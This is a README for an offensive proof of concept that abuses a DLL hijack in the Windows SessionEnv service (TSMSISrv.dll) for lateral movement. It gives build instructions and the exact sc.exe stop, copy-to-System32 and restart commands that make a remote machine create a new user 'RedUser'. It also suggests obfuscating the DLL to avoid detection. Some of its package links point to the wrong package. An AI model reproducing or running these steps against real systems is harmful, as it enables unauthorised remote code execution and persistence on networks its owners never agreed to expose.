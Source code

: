 # TSMSI-SRV-FI-POC

## Description

The default service titled 'SessionEnv' contains a DLL hijack.
A user with admin privileges can utilize this service for lateral movement to a remote machine using the Execute Method below.

This POC in C# leverages the called functions of the TSMSISrv.dll by including malicious instructions within StartComponent.

The result of the script: creates a new Windows user called 'RedUser'

## Build Process

Please ensure you have the UnmanagedExports Package installed and are building for your target architecture e.g Framework 4.0.

Other NuGet Packages that are required are: 

* Costura.Fody 3.3.3 - https://www.nuget.org/packages/Costura.Fody/3.3.3
* Fody 4.0.2 - https://nuget.info/packages/Costura.Fody/3.3.3
* Unmanaged Exports 1.2.7 - https://www.nuget.org/packages/Costura.Fody/3.3.3

## Execution Instructions

1. `sc.exe \\REMOTECOMPUTER stop SessionEnv`
2. `copy TSMSISrv.dll to C:\Windows\System32\TSMSISrv.dll`
3. `sc.exe \\REMOTECOMPUTER start SessionEnv`

Execution should have occurred on the remote machine and added a new user called "RedUser"

Suggestion: Run the project through offensive pipeline to obfuscate the DLL.
